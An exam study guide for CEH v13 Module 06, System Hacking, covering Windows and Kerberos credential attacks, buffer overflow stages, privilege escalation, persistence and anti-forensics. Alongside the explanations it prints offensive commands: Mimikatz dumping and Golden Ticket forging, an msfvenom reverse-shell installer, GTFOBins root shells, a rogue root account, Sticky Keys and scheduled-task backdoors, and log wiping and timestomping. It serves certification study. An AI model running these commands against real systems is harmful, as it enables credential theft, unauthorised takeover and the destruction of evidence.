




<div align="center">




# 🛡️ CEH v13 — Module 06: System Hacking
### Certified Ethical Hacker (CEH) Exam Notes • Gaining Access • Buffer Overflows • Privilege Escalation • Maintaining Access • Rootkits & ADS • Clearing Tracks

[-0078D4?style=for-the-badge&logo=shield)](https://www.eccouncil.org/programs/certified-ethical-hacker-ceh/)
[](https://www.eccouncil.org/)
[](../README.md)
[](./README.md)

<p align="center">
  <b>Authoritative, exam-oriented study guide and reference architecture for CEH v13 Module 06: System Hacking. Covers the complete operational lifecycle of system intrusion across four core phases: Gaining Access (password cracking, Kerberos tickets, Mimikatz, Buffer Overflow mechanics), Escalating Privileges (Windows Potato attacks, unquoted service paths, Linux SUID/GTFOBins), Maintaining Access (Rootkits, DKOM, NTFS Alternate Data Streams, backdoors, steganography), and Clearing Tracks (log wiping, timestomping, anti-forensics).</b>
</p>

[📖 Module Hub](../README.md) • [📋 PDF Reference Part 1](./CEHv13%20-%20Module%2006%20-%20System%20Hacking%20Part%201.pdf) • [📋 Part 2](./CEHv13%20-%20Module%2006%20-%20System%20Hacking%20Part%202.pdf) • [📋 Part 3](./CEHv13%20-%20Module%2006%20-%20System%20Hacking%20Part%203.pdf) • [🗺️ Knowledge Base Index](../../README.md)

</div>

---

## 📋 Table of Contents

- [1. System Hacking Architecture & The 4 Phases](#1-system-hacking-architecture--the-4-phases)
  - [The CEH System Hacking Methodology](#the-ceh-system-hacking-methodology)
- [2. Phase 1: Gaining Access (Authentication & Memory Attacks)](#2-phase-1-gaining-access-authentication--memory-attacks)
  - [Windows Authentication Mechanics: SAM, NTLM, and LSASS](#windows-authentication-mechanics-sam-ntlm-and-lsass)
  - [Kerberos Protocol Deep-Dive: Tickets, SPNs, and Silver/Golden Tickets](#kerberos-protocol-deep-dive-tickets-spns-and-silvergolden-tickets)
  - [Password Cracking Taxonomy & Toolchains](#password-cracking-taxonomy--toolchains)
  - [LLMNR / NBT-NS Poisoning (Responder)](#llmnr--nbt-ns-poisoning-responder)
  - [Memory Credential Dumping with Mimikatz](#memory-credential-dumping-with-mimikatz)
- [3. Vulnerability Exploitation: Buffer Overflow Internals](#3-vulnerability-exploitation-buffer-overflow-internals)
  - [Stack Memory Anatomy: ESP, EBP, and EIP](#stack-memory-anatomy-esp-ebp-and-eip)
  - [The 6 Stages of Stack-Based Buffer Overflow Exploitation](#the-6-stages-of-stack-based-buffer-overflow-exploitation)
  - [Modern Exploit Mitigations: DEP/NX, ASLR, and Canaries](#modern-exploit-mitigations-depnx-aslr-and-canaries)
- [4. Phase 2: Escalating Privileges (PrivEsc)](#4-phase-2-escalating-privileges-privesc)
  - [Windows Privilege Escalation Vectors](#windows-privilege-escalation-vectors)
  - [Potato Exploits & Token Impersonation (`SeImpersonatePrivilege`)](#potato-exploits--token-impersonation-seimpersonateprivilege)
  - [Linux Privilege Escalation Vectors & GTFOBins](#linux-privilege-escalation-vectors--gtfobins)
- [5. Phase 3: Maintaining Access (Persistence & Concealment)](#5-phase-3-maintaining-access-persistence--concealment)
  - [Trojans, RATs, and Hardware/Software Keyloggers](#trojans-rats-and-hardwaresoftware-keyloggers)
  - [Rootkits: Ring 3 User-Mode vs. Ring 0 Kernel-Mode & DKOM](#rootkits-ring-3-user-mode-vs-ring-0-kernel-mode--dkom)
  - [Windows Persistence Hooks (Registry Run, Services, WMI, Sticky Keys)](#windows-persistence-hooks-registry-run-services-wmi-sticky-keys)
  - [NTFS Alternate Data Streams (ADS)](#ntfs-alternate-data-streams-ads)
  - [Steganography & LSB Encoding](#steganography--lsb-encoding)
- [6. Phase 4: Clearing Tracks & Anti-Forensics](#6-phase-4-clearing-tracks--anti-forensics)
  - [Disabling Auditing & Bypassing Security Logging](#disabling-auditing--bypassing-security-logging)
  - [Clearing Windows Event Logs (`wevtutil`, `clearev`, Event ID 1102)](#clearing-windows-event-logs-wevtutil-clearev-event-id-1102)
  - [Erasing Linux Bash Artifacts & Logs](#erasing-linux-bash-artifacts--logs)
  - [Timestomping: Modifying NTFS MACB Attributes](#timestomping-modifying-ntfs-macb-attributes)
- [7. Master Decision Tree: System Compromise Workflow](#7-master-decision-tree-system-compromise-workflow)
- [8. CEH v13 Exam Essentials & Distinction Matrix](#8-ceh-v13-exam-essentials--distinction-matrix)

---

## 1. System Hacking Architecture & The 4 Phases

### The CEH System Hacking Methodology

System hacking represents the operational culmination of footprinting, scanning, and enumeration. Once vulnerable ports and service banners are cataloged, the penetration tester transitions into direct host penetration across four defined phases:



* **Horizontal Privilege Escalation**: Acquiring access to another standard user account possessing identical permission levels.
* **Vertical Privilege Escalation**: Elevating from a low-privilege standard user context (`user`, `guest`, `www-data`, `local service`) to complete administrative control (`NT AUTHORITY\SYSTEM` on Windows, `root` on Linux).

---

## 2. Phase 1: Gaining Access (Authentication & Memory Attacks)

### Windows Authentication Mechanics: SAM, NTLM, and LSASS

Windows local and domain authentication relies on specific subsystems:

```
+--------------------------------------------------------------------------+
|                  WINDOWS LOCAL CREDENTIAL STORAGE & SUBSYSTEMS           |
+--------------------------------------------------------------------------+
|  SAM (Security Accounts Manager):                                        |
|  - Stored on disk at: %SystemRoot%\System32\config\SAM                   |
|  - Locked by OS during runtime; contains local username and NTLM hashes. |
|  - Encrypted using the SYSKEY / SYSTEM bootkey (%SystemRoot%\System32\   |
|    config\SYSTEM).                                                       |
+--------------------------------------------------------------------------+
|  LSASS (Local Security Authority Subsystem Service - lsass.exe):         |
|  - Core Windows security process running in user-mode memory.            |
|  - Caches active logon credentials: NTLM hashes, Kerberos tickets (TGT), |
|    and plaintext passwords (if WDigest or Credential Guard unconfigured).|
+--------------------------------------------------------------------------+
|  HASH EVOLUTION:                                                         |
|  * LM (LAN Manager) Hash: Deprecated; divides password into two 7-char   |
|    halves, uppercases all text, DES-encrypts. Max 14 chars. Insecure.    |
|  * NTLM Hash: MD4 hash of the UTF-16LE Unicode password.                 |
|    Calculation: MD4(UTF-16LE("Password123!"))                            |
|  * NetNTLMv1/v2: Challenge-response network authentication tokens.       |
|    Cannot be used for Pass-the-Hash directly; must be cracked or relayed.|
+--------------------------------------------------------------------------+
```

---

### Kerberos Protocol Deep-Dive: Tickets, SPNs, and Silver/Golden Tickets

Kerberos operates on TCP/UDP **Port 88** and utilizes symmetric cryptography with a trusted third party, the Key Distribution Center (KDC), running on the Active Directory Domain Controller:



#### Golden Ticket vs. Silver Ticket (High-Yield Exam Concept)

```
+--------------------------------------------------------------------------+
|          GOLDEN TICKET                 vs.          SILVER TICKET        |
+--------------------------------------------------------------------------+
|  Forged TGT (Ticket Granting Ticket)      Forged TGS (Service Ticket)    |
|                                                                          |
|  Target: Whole Active Directory Domain    Target: One Specific Service   |
|  Key Required: Hash of the KRBTGT         Key Required: NTLM Hash of the |
|  account on the Domain Controller.        specific Service Account SPN.  |
|                                                                          |
|  Scope: Unrestricted Domain Admin /       Scope: Access to that target   |
|  Enterprise Admin privileges across       service only (e.g., MSSQL or   |
|  every machine in the forest.             CIFS share).                   |
|                                                                          |
|  KDC Interaction: Communicates with       KDC Interaction: Completely    |
|  TGS, completely bypassing the AS.        bypasses both AS and TGS!      |
+--------------------------------------------------------------------------+
```

---

### Password Cracking Taxonomy & Toolchains

| Attack Type | Mechanism & Characteristics | Example Tool |
| :--- | :--- | :--- |
| **Dictionary Attack** | Iterates through a pre-compiled wordlist (e.g., `rockyou.txt`) hashing each candidate. | `John the Ripper`, `Hashcat` |
| **Brute-Force Attack** | Systematically tests every possible combination of characters across a defined keyspace ($A-Z, a-z, 0-9, \text{symbols}$). | `Hydra`, `Hashcat -a 3` |
| **Hybrid Attack** | Combines wordlist entries with dictionary rules (appending digits, years, capitalizing letters, leetspeak substitution: `P@ssw0rd2024`). | `Hashcat -r rules/best64.rule` |
| **Syllable Attack** | Combines phonetically pronounceable syllables to crack passwords composed of nonsense words. | Specialized cracking scripts |
| **Rainbow Table Attack**| Pre-computed tables of plaintext-to-hash mappings utilizing reduction functions ($R$). Uses memory/time trade-off. **Defeated completely by cryptographic salts**. | `Ophcrack`, `RainbowCrack` |

---

### LLMNR / NBT-NS Poisoning (Responder)

When a Windows client attempts to resolve a network host (e.g., typos in shared folder paths `\\filesharr\docs`) and DNS fails, it broadcasts **LLMNR (UDP 5355)** and **NetBIOS Name Service (UDP 137)** queries across the local subnet.
* **The Attack**: The attacker listens with `Responder`. When the broadcast is received, `Responder` spoof-claims to be the requested server.
* **The Harvest**: The victim workstation automatically attempts to authenticate, sending its username and **NetNTLMv2 challenge-response hash** to the attacker.

```bash
# Running Responder on interface eth0 with analysis/poisoning active
sudo responder -I eth0 -dwv
```

---

### Memory Credential Dumping with Mimikatz

**Mimikatz** (authored by Benjamin Delpy) interrogates `lsass.exe` memory:

```cmd
:: Elevate to SeDebugPrivilege (Mandatory prerequisite)
privilege::debug

:: Dump cached credentials, plaintext passwords, and NTLM hashes
sekurlsa::logonpasswords

:: Dump local SAM database hashes
lsadump::sam

:: Extract Kerberos encryption keys
sekurlsa::ekeys

:: Forge a Golden Ticket
kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-... /krbtgt:<KRBTGT_HASH> /id:500 /ticket:golden.kirbi

:: Inject forged ticket into current logon session
kerberos::ptt golden.kirbi
```

---

## 3. Vulnerability Exploitation: Buffer Overflow Internals

### Stack Memory Anatomy: ESP, EBP, and EIP

A 32-bit x86 stack memory frame grows **downward** (from high memory addresses to low memory addresses):

```
High Memory Address:  [ 0xFFFFFFFF ]
                      +-----------------------------+
                      |   Function Arguments        |
                      +-----------------------------+
                      |   EIP (Return Address)      | <--- Primary Exploitation Target!
                      +-----------------------------+
                      |   EBP (Saved Frame Pointer) |
                      +-----------------------------+
                      |   Local Buffer Variables    |
                      |   (e.g., char buffer[256])  | <--- Data written here overflows upward
                      +-----------------------------+
Low Memory Address:   |   ESP (Stack Pointer)       |
                      [ 0x00000000 ]
```

* **ESP (Extended Stack Pointer)**: Points to the top of the stack (lowest memory address).
* **EBP (Extended Base Pointer)**: Points to the base of the current stack frame.
* **EIP (Extended Instruction Pointer)**: Contains the memory address of the **next assembly instruction to be executed by the CPU**.

---

### The 6 Stages of Stack-Based Buffer Overflow Exploitation



1. **Spiking / Fuzzing**: Send increasingly large string sequences (e.g., thousands of `\x41` `'A'`) to uncover unhandled bounds checks in input functions like `strcpy`, `gets`, or `sprintf`.
2. **Finding the Offset**: Send a unique cyclic pattern using `msf-pattern_create -l 3000`. When the crash occurs, read the value in EIP (e.g., `39694438`) and pass it to `msf-pattern_offset -q 39694438 -l 3000` to find the exact byte index (e.g., 2012 bytes).
3. **Overwriting EIP**: Construct a test buffer: `Payload = "A" * 2012 + "B" * 4`. Verify in the debugger that EIP equals `42424242` (`BBBB`).
4. **Identifying Bad Characters**: Send all byte values from `\x01` to `\xff` (excluding `\x00` string terminator) to see if the application truncates or mangles specific characters.
5. **Locating JMP ESP**: Search executable modules/DLLs (using `!mona jmp -r esp -cpb "\x00"`) for an address containing the opcode `\xff\xe4` (`JMP ESP`) that does not contain bad characters and does not enforce memory protections.
6. **Payload Construction**: Assemble the final weaponized buffer:
   $$\text{Final Buffer} = \text{Padding (2012 'A's)} + \text{JMP ESP Address} + \text{NOP Sled (\textbackslash x90 \times 16)} + \text{Shellcode}$$

---

### Modern Exploit Mitigations

| Mitigation | Mechanism | Bypass Technique |
| :--- | :--- | :--- |
| **DEP / NX (Data Execution Prevention / No-Execute)** | Marks the stack and heap memory pages as non-executable. Any attempt to execute instructions directly in the buffer causes an immediate hardware exception. | **ROP (Return-Oriented Programming)**: Chains together existing benign assembly instructions (`gadgets`) ending in `RET` from executable libraries. |
| **ASLR (Address Space Layout Randomization)** | Randomizes the base memory addresses of the stack, heap, and loaded DLLs upon every reboot. | Find non-ASLR compiled DLLs, information disclosure / memory leak vulnerabilities, or brute-force in 32-bit address spaces. |
| **Stack Canaries / Cookies (`/GS`)** | Places an integer check value directly before EBP and EIP. Before returning, the function verifies if the cookie was modified. | Leak the canary via format string bugs, overwrite exception handlers (**SEH Exploitation**), or bypass via function pointers. |

---

## 4. Phase 2: Escalating Privileges (PrivEsc)

### Windows Privilege Escalation Vectors

#### 1. Unquoted Service Paths
When a Windows service executable path contains spaces and is not enclosed within quotation marks, Windows searches for executables at each path separator:
* *Vulnerable Path*: `C:\Program Files\Vulnerable Software\Service.exe`
* *Windows Search Order*:
  1. `C:\Program.exe`
  2. `C:\Program Files\Vulnerable.exe`
  3. `C:\Program Files\Vulnerable Software\Service.exe`
* *Exploitation*: If standard users have write permissions to `C:\`, dropping a malicious `C:\Program.exe` results in SYSTEM-level code execution upon service restart.

```cmd
:: Detecting unquoted service paths via WMIC
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```

#### 2. AlwaysInstallElevated
If the following two registry keys are set to `1`, any user can execute Windows Installer packages (`.msi`) with elevated `NT AUTHORITY\SYSTEM` privileges:
* `HKCU\Software\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated`
* `HKLM\Software\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated`

```cmd
:: Verification
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

:: Generating an elevated reverse-shell MSI
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f msi -o priv.msi

:: Executing silently
msiexec /quiet /qn /i priv.msi
```

---

### Potato Exploits & Token Impersonation (`SeImpersonatePrivilege`)

Service accounts (e.g., `IIS APPPOOL\DefaultAppPool`, `LOCAL SERVICE`) often possess the **`SeImpersonatePrivilege`** or **`SeAssignPrimaryTokenPrivilege`** user right:

```
+--------------------------------------------------------------------------+
|                     THE POTATO EXPLOIT SUITE                             |
+--------------------------------------------------------------------------+
|  MECHANISM: Tricks a local privileged SYSTEM process to authenticate to  |
|  a rogue local RPC / DCOM / Named Pipe listener controlled by the        |
|  attacker, captures the SYSTEM access token, and calls CreateProcessWith- |
|  TokenW() or CreateProcessAsUserW() to spawn a SYSTEM shell!             |
|                                                                          |
|  * JuicyPotato: Abuses BITS and DCOM CLSIDs (Windows 7 - 10 / Server 2016)|
|  * PrintSpoofer: Abuses Print Spooler Named Pipes (Windows 10 / Server   |
|    2019 / Server 2022). High-reliability SYSTEM escalation.              |
|  * GodPotato: Abuses DCOM OXID resolver on newer patched Windows kernels.|
+--------------------------------------------------------------------------+
```

```cmd
# Executing PrintSpoofer to spawn an interactive SYSTEM cmd prompt
PrintSpoofer.exe -i -c cmd.exe
```

---

### Linux Privilege Escalation Vectors & GTFOBins

* **SUID / SGID Binaries**: Executables configured with the SetUID bit (`chmod u+s /path/binary`) execute with the permissions of the file owner (typically `root`).
  ```bash
  # Finding all SUID binaries on Linux
  find / -perm -u=s -type f 2>/dev/null
  ```
* **GTFOBins Exploitation**: If standard utilities have SUID set or are granted `NOPASSWD` execution in `/etc/sudoers`:
  * *`find`*: `find . -exec /bin/sh -p \; -quit`
  * *`vim`*: `vim -c ':!/bin/sh'`
  * *`bash`*: `bash -p`
  * *`nmap`* (legacy interactive mode): `nmap --interactive` followed by `!sh`
* **Insecure `/etc/passwd` Permissions**: If `/etc/passwd` is world-writable, append a new root user:
  ```bash
  # Generating password hash for 'root2' with password 'password123'
  openssl passwd -1 -salt evil password123
  # Append to /etc/passwd
  echo "root2:$1$evil$Qz98...:0:0:root:/root:/bin/bash" >> /etc/passwd
  su root2
  ```

---

## 5. Phase 3: Maintaining Access (Persistence & Concealment)

### Rootkits: Ring 3 User-Mode vs. Ring 0 Kernel-Mode & DKOM

Rootkits provide stealth and persistence by intercepting and modifying operating system APIs and kernel structures:

```
+--------------------------------------------------------------------------+
|                    CPU PROTECTION RINGS & ROOTKITS                       |
+--------------------------------------------------------------------------+
|  RING 3: USER MODE                                                       |
|  - Applications, user processes, shell sessions.                         |
|  - User-Mode Rootkits: Intercept user-level APIs (e.g., hooking user32,   |
|    kernel32, ntdll.dll). Modifies function output to hide files/processes.|
|  - Easiest to detect by memory integrity tools.                          |
+--------------------------------------------------------------------------+
|  RING 0: KERNEL MODE                                                     |
|  - OS Kernel, device drivers, low-level memory controllers.              |
|  - Kernel-Mode Rootkits: Replaces system call tables (SSDT Hooking) or  |
|    directly manipulates kernel objects in memory.                        |
|  - DKOM (Direct Kernel Object Manipulation): Modifies active kernel data  |
|    structures in RAM. Specifically unlinks an attacker's process from     |
|    the doubly-linked ActiveProcessLinks list in the EPROCESS structure!  |
|    Result: Process continues executing, but Task Manager and Process     |
|    Explorer show ZERO trace of it!                                       |
+--------------------------------------------------------------------------+
```

---

### Windows Persistence Hooks

1. **Registry Run Keys**: Automatically executes binaries upon user logon or system start:
   * `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`
   * `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
2. **Sticky Keys Backdoor**: Replace Accessibility utilities executed at the pre-logon lock screen (`sethc.exe` triggered by pressing `SHIFT` 5 times, or `utilman.exe` triggered by `WIN+U`):
   ```cmd
   takeown /f C:\Windows\System32\sethc.exe
   icacls C:\Windows\System32\sethc.exe /grant Administrators:F
   copy /y C:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
   ```
3. **Scheduled Tasks**: Persisting via `schtasks`:
   ```cmd
   schtasks /create /tn "SystemTelemetry" /tr "C:\Users\Public\backdoor.exe" /sc onlogon /ru "SYSTEM"
   ```

---

### NTFS Alternate Data Streams (ADS)

On NTFS filesystems, any file can possess multiple data streams. The primary visible stream is `$DATA`. Attackers attach hidden payloads to existing benign files without changing the visible file size or icon:

```cmd
:: Injecting an executable into a text file's stream
type C:\malware\nc.exe > C:\notes\readme.txt:hidden_nc.exe

:: The visible file size of readme.txt remains completely UNCHANGED!

:: Inspecting streams with dir /r
dir /r C:\notes\

:: Executing the hidden payload stream
wmic process call create "C:\notes\readme.txt:hidden_nc.exe"
```

---

## 6. Phase 4: Clearing Tracks & Anti-Forensics

### Clearing Windows Event Logs

* **Event Viewer Logs**: Stored as binary `.evtx` files under `%SystemRoot%\System32\Winevt\Logs\`.
* **The High-Yield Exam Trap**: Clearing the Windows Security log immediately logs **Event ID 1102 ("The audit log was cleared")**, leaving an obvious investigative red flag!

```cmd
:: Wiping logs via wevtutil
wevtutil cl Application
wevtutil cl Security
wevtutil cl System

:: PowerShell log clearing
Clear-EventLog -LogName System, Security, Application

:: Meterpreter post-exploitation module
meterpreter > clearev
```

---

### Erasing Linux Bash Artifacts & Logs

```bash
# Disable history recording for current session
unset HISTFILE
export HISTSIZE=0

# Clear the current in-memory history buffer
history -c

# Overwrite and shred history file
shred -zu ~/.bash_history

# Securely wipe system authentication log
shred -zu -n 5 /var/log/auth.log

# Terminate shell without writing memory history buffer to disk
kill -9 $$
```

---

### Timestomping: Modifying NTFS MACB Attributes

Forensic analysts rely on file timestamps to reconstruct attack timelines:
* **M**: Modified (when file content was last changed).
* **A**: Accessed (when file was last read).
* **C**: Created / Entry Modified (when MFT record changed).
* **B**: Born (when file was originally created on volume).

Attackers use **timestomping** to match the MACB timestamps of malware to trusted system files (e.g., `kernel32.dll`):

```bash
# Meterpreter timestomping command
meterpreter > timestomp backdoor.exe -m "03/15/2018 10:14:02"
meterpreter > timestomp backdoor.exe -f C:\\Windows\\System32\\kernel32.dll
```

---

## 7. Master Decision Tree: System Compromise Workflow

```
                        [ UNCREDENTIALED ATTACKER ]
                                     |
                                     v
               +-------------------------------------------+
               |        PHASE 1: GAINING ACCESS            |
               +-------------------------------------------+
               | - Exploit remote buffer overflow          |
               | - Capture NetNTLMv2 hash (Responder)      |
               | - Spray / crack weak passwords            |
               +---------------------+---------------------+
                                     |
                                     v
                          [ INITIAL ACCESS SHELL ]
                          (Standard / Service User)
                                     |
                                     v
               +-------------------------------------------+
               |       PHASE 2: PRIVILEGE ESCALATION       |
               +-------------------------------------------+
               | Windows: Unquoted paths / Potato / DLL Hijack|
               | Linux: SUID / GTFOBins / Sudo / Kernel    |
               +---------------------+---------------------+
                                     |
                                     v
                          [ ROOT / SYSTEM ACCESS ]
                                     |
                                     v
               +-------------------------------------------+
               |       PHASE 3: MAINTAINING ACCESS         |
               +-------------------------------------------+
               | - Install Kernel Rootkit (DKOM)           |
               | - NTFS ADS concealment                    |
               | - Registry Run Keys & Sticky Keys backdoor|
               +---------------------+---------------------+
                                     |
                                     v
               +-------------------------------------------+
               |        PHASE 4: CLEARING TRACKS           |
               +-------------------------------------------+
               | - Timestomp binaries (match kernel32.dll) |
               | - Clear event logs (wevtutil / clearev)   |
               | - Unset HISTFILE & shred bash logs        |
               +-------------------------------------------+
```

---

## 8. CEH v13 Exam Essentials & Distinction Matrix

| Attack / Concept | Distinction / Critical Exam Fact |
| :--- | :--- |
| **Golden Ticket vs. Silver Ticket** | **Golden Ticket** requires the domain's **KRBTGT** hash and grants full domain control. **Silver Ticket** requires only the specific **Service** hash and communicates directly with the service (bypassing the KDC entirely). |
| **NTFS Alternate Data Streams (ADS)** | Injects data into hidden streams without modifying visible file size. Command to view is **`dir /r`**. |
| **DKOM (Rootkits)** | Direct Kernel Object Manipulation unlinks processes from the **ActiveProcessLinks** list in the **EPROCESS** structure in memory. |
| **Buffer Overflow EIP** | The **EIP** (Extended Instruction Pointer) controls CPU execution flow; the payload replaces EIP with a `JMP ESP` instruction. |
| **DEP vs. ASLR** | **DEP** stops code execution from the stack (bypassed with ROP). **ASLR** randomizes memory addresses (bypassed by targeting non-ASLR modules or memory leaks). |
| **Windows Event ID 1102** | The specific audit event generated when the **Security Audit Log is cleared**. |
| **Potato Exploits** | Exploit Windows accounts holding **`SeImpersonatePrivilege`** or **`SeAssignPrimaryTokenPrivilege`** to escalate to SYSTEM. |
| **Rainbow Tables Defense** | Pre-computed hash tables are rendered **completely useless** by applying unique, cryptographically random **Salts**. |

---

<div align="center">

[⬅️ Previous: Module 05 — Vulnerability Analysis](../Module%2005/README.md) • [Next: Module 07 — Malware Threats ➡️](../Module%2007/README.md)

</div>
